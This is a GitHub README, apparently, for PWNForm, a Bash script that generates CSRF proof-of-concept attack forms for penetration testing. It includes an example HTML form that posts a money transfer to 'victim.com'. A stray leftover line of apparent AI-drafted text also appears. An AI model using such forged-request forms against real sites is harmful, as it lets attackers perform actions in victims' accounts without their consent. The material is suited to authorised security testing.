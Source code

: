 <h1>PWNForm - CSRF PoC Generator</h1>
<img src=https://github.com/user-attachments/assets/9fa34937-be16-4743-9a2d-a906e5868b1a onerror=x width=800 />
Here’s how your README file should be structured based on your script's functionality:


---



Overview

PWNForm is an automated Bash script that generates a CSRF (Cross-Site Request Forgery) Proof-of-Concept (PoC) attack form. It allows penetration testers and security researchers to quickly generate PoC exploits that can be used to test web applications for CSRF vulnerabilities.

With PWNForm, you can:

Easily create an interactive CSRF attack form.

Generate an HTML-based PoC that allows parameter modification.

Automatically serve the PoC via a local Python HTTP server.

Open the PoC in a browser instantly.



---

Features

✅ Interactive Input – The script prompts the user for a target URL, HTTP method, and request body.
✅ Automatic HTML Generation – A properly formatted CSRF attack form is generated based on user input.
✅ Local HTTP Server – A Python HTTP server is launched to serve the PoC file.
✅ Browser Auto-Launch – Opens the PoC automatically in the browser for immediate testing.
✅ Port Selection – Allows users to specify a custom port for the HTTP server.
✅ Handles URL-Encoding – Decodes and properly formats URL-encoded request bodies.


---

Installation

Prerequisites

Ensure you have the following installed:

Bash (Linux/macOS/WSL recommended)

Python3 (for the built-in HTTP server)

xdg-open (or equivalent command to open URLs)


Clone the Repository

git clone https://github.com/Demgainschill/PWNForm.git
cd PWNForm


---

Usage

Basic Usage

Run the script with:

./pwnform.sh

OR specify a custom port:

./pwnform.sh -p 8080

Example Run

1. Enter the target URL:
Example: https://victim.com/transfer


2. Select the request method:
Example: POST


3. Paste the full request body:
Example: amount=100&recipient=attacker



The script will:

Generate a csrf_poc.html file.

Start a local Python HTTP server.

Open the PoC in your default browser.


Expected Output

Generating CSRF PoC...
CSRF PoC HTML saved as csrf_poc.html
Starting Python HTTP server on port 8000...
PoC available at http://localhost:8000/csrf_poc.html


---

Generated CSRF PoC Example

<form id="csrfForm" action="https://victim.com/transfer" method="POST">
    <label for='amount'><strong>amount:</strong></label>
    <input type='text' name='amount' id='amount' value='100'><br><br>
    <label for='recipient'><strong>recipient:</strong></label>
    <input type='text' name='recipient' id='recipient' value='attacker'><br><br>
    <input type="submit" value="Send CSRF Request">
</form>


---




<img src=https://github.com/user-attachments/assets/cd18729e-8440-4c96-8ac5-bb8822179b60 onerror=pwnform.gif width=800 />

https://github.com/user-attachments/assets/56def11a-062a-4a33-bc01-45ff4c4721db

